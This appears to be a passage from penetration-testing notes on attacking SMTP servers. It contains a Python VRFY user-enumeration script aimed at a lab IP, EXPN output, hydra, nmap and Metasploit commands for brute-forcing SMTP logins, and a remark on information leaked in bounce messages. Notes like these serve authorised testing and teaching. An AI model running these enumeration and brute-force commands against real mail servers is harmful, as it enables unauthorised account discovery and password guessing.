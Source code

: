 ```
EXPN root
250 2.1.5 <ed.williams@myhost>  # root doesnt exist
EXPN sshd
2.1.5 sshd privsep <sshd@mail2>  # sshd exists
```

### python script for verifying users

{% hint style="info" %}
change the "method" variable to test for different methods of user enumeration.
{% endhint %}

```python
#!/usr/bin/python
import socket
import sys
method = "VRFY "
if len(sys.argv) != 2:
print "Usage: vrfy.py [username]"
sys.exit(0)
# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Connect to the Server
connect = s.connect(('10.11.1.217',25))
# Receive the banner
banner = s.recv(1024)
print banner
# VRFY a user
s.send( method + sys.argv[1] + '\r\n')
result = s.recv(1024)
print result
# Close the socket
s.close() 
```

{% embed url="https://github.com/cytopia/smtp-user-enum" %}

{% embed url="https://github.com/z0mbiehunt3r/smtp-enum" %}

## Login Brute Force

```
nmap -p 25 --script smtp-brute <host>
use auxiliary/scanner/smtp/smtp_enum
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
```

## Delivery Status Notification Disclosure

&#x20;If you send an **email** to an organisation to an **invalid address**, the organisation will notify that the address was invalided sending a **mail back to you**. **Headers** of the returned email will **contain** possible **sensitive information** (like IP address of the mail services that interacted with the reports or anti-virus software info).
